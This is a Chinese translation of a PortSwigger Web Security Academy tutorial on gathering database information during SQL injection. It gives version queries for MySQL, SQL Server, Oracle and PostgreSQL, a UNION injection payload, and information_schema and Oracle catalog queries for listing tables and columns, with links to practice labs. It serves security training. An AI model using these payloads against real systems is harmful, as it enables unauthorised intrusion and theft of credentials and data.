 ```yaml
---
description: '原文链接：https://portswigger.net/web-security/sql-injection/examining-the-database'
---
```


# 在SQL注入攻击中检查数据库

当利用 [SQL 注入](https://portswigger.net/web-security/sql-injection)漏洞时，收集数据库本身的信息通常是必要的。这包括数据库软件的类型和版本，还包括数据库中包含的表和列等内容。

### 查询数据库类型和版本

不同的数据库提供不同的版本查询方式。你通常需要尝试不同的查询方式，以找到一个有效的查询方式，能够确定数据库软件的类型和版本。

用于确定某些常用数据库类型的数据库版本的查询如下：

| 数据库类型       | 查询                      |
| :--------------- | :------------------------ |
| Microsoft, MySQL | `SELECT @@version`        |
| Oracle           | `SELECT * FROM v$version` |
| PostgreSQL       | `SELECT version()`        |

例如，你可以使用带有下边的 `UNION` 攻击：

```sql
' UNION SELECT @@version--
```

这可能会返回类似下面的输出，确认数据库是 Microsoft SQL Server，以及正在使用的版本。

```text
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```

{% hint style="warning" %}
**实验：**[SQL 注入攻击，在 Oracle 中查询数据库类型和版本](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)
{% endhint %}

{% hint style="warning" %}
**实验：**[SQL 注入攻击，在 MySQL 和微软中查询数据库类型和版本](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)
{% endhint %}

### 列出数据库的内容

大多数数据库类型（Oracle 是个明显的例外）都有一组被称作 information schema 的视图，这些视图提供有关数据库的信息。

你可以通过查询 `information_schema.tables` 来列出数据库的表：

```sql
SELECT * FROM information_schema.tables
```

返回输出如下：

```sql
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME    TABLE_TYPE
=====================================================
MyDatabase    dbo          Products BASE TABLE
MyDatabase    dbo          Users BASE    TABLE
MyDatabase    dbo          Feedback BASE TABLE
```

这些输出表明库中有三个表，分别是 `Products`, `Users`, `Feedback`。

你可以通过查询 `information_schema.columns` 列出特定表中的列：

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

返回输出如下：

```sql
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE
=================================================================
MyDatabase    dbo          Users      UserId      int
MyDatabase    dbo          Users      Username    varchar
MyDatabase    dbo          Users      Password    varchar
```

此输出显示了指定表中的列以及每列的数据类型。

{% hint style="warning" %}
**实验：**[SQL 注入攻击，在非 Oracle 数据库中列出数据库内容](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
{% endhint %}

### 等效于Oracle中的information schema

在 Oracle 中，你可以通过稍有差异的查询获取同样的信息。

你可以通过查询 `all_tables` 列出表：

```sql
SELECT * FROM all_tables
```

还可以通过查询 `all_tab_columns` 列出列：

```sql
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```

{% hint style="warning" %}
实验：[SQL 注入攻击，在 Oracle 中列出数据库内容](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)
{% endhint %}

